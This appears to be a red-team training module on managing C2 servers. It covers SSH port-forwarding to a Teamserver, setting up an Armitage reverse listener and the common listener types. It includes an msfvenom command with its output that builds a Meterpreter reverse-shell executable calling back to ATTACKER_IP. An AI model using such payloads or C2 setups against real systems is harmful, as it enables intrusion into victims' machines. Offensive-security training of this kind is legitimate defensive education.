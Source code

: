 # Accessing and Managing your C2 Infrastructure

Now that we have a general idea of how to set up a C2 Server, we will go over some basic operational details that you should know when accessing your C2 Server. It's important to note that you are not required to perform any actions in this task - This is meant to gain general experience and familiarity with Command and Control Frameworks.

## Basic Operational Security

We briefly touched on this in the last section; You should never have your C2 management interface directly accessible. This is primarily for you to improve operational security. It can be incredibly easy to fingerprint C2 servers. For example, in versions prior to 3.13, Cobalt Strike C2 servers were able to be identified by an extra space (`\x20`) at the end of the HTTP Response. Using this tactic, many Blue Teamers could fingerprint all of the Cobalt Strike C2 servers publicly accessible. For more information on fingerprinting and identifying Cobalt Strike C2 Servers, check out this post on the Recorded Future blog.

![Screenshot from a Hex Editor depicting the extra space at the end of an HTTP Response](path/to/image.png)

The point in mentioning this is that you want to reduce your operational security risk as much as possible. If this means not having the management interface for your C2 server publicly accessible, then, by all means, you should do it.

## Accessing your Remote C2 Server that's Listening Locally

This section will be focusing on how to securely access your C2 server by SSH port-forwarding; if you have port-forwarded with SSH before, feel free to skip over this section, you may not learn anything new. For those unfamiliar, SSH port-forwarding allows us to either host resources on a remote machine by forwarding a local port to the remote server, or allows us to access local resources on the remote machine we are connecting to. In some circumstances, this may be for circumventing Firewalls.

![Firewall Blocks TCP/8080](path/to/image.png)

Or, in our instance, this could be done for operational security reasons.

![Firewall Allows TCP/22, allowing us to access TCP/8080 over TCP/22](path/to/image.png)

Now that we have a better understanding of why we want to SSH port forward, let's go over the how. In our C2 setup from Task 4, our Teamserver is listening on localhost on TCP/55553. In order to access Remote port 55553, we must set up a Local port-forward to forward our local port to the remote Teamserver server. We can do this with the `-L` flag on our SSH client:

```sh
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
root@kali$ echo "Connected" 
Connected
```

Now that we have an SSH remote port forward set up, you can now connect to your C2 server running on TCP/55553. As a reminder, Armitage does not support listening on a loopback interface (127.0.0.1-127.255.255.255), so this is general C2 server admin advice. You will find this advice more centric to C2 servers like Covenant, Empire, and many others. We highly recommend putting firewall rules in place for C2 servers that must listen on a public interface so only the intended users can access your C2 server. There are various ways to do this. If you are hosting Cloud infrastructure, you can set up a Security Group or use a host-based firewall solution like UFW or IPTables.

## Creating a Listener in Armitage

Next, we're going to move onto a topic that all C2 servers have - this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let's create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the "Listeners" section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

![Creating a Listener in Armitage](path/to/image.png)

After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from,

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

### Listener successfully configured

After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.

### Getting a Callback

#### MSFVenom Payload Generation

```sh
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the windows/meterpreter/reverse_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

### Callback from the Victim

## Listener Type

As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover, these being the following:

- **Standard Listener** - These often communicate directly over a raw TCP or UDP socket, sending commands in cleartext. Metasploit has full support for generic listeners.
- **HTTP/HTTPS Listeners** - These often front as some sort of Web Server and use techniques like Domain Fronting or Malleable C2 profiles to mask a C2 server. When specifically communicating over HTTPS, it's less likely for communications to be blocked by an NGFW. Metasploit has full support for HTTP/HTTPS listeners.
- **DNS Listener** - DNS Listeners are a popular technique specifically used in the exfiltration stage where additional infrastructure is normally required to be set up, or at the very least, a Domain Name must be purchased and registered, and a public NS server must be configured. It is possible to set up DNS C2 operations in Metasploit with the help of additional tools.
- **SMB Listener** - Communicating via SMB named pipes is a popular method of choice, especially when dealing with a restricted network; it often enables more flexible pivoting with multiple devices talking to each other and only one device reaching back out over a more common protocol like HTTP/HTTPS. Metasploit has support for Named Pipes.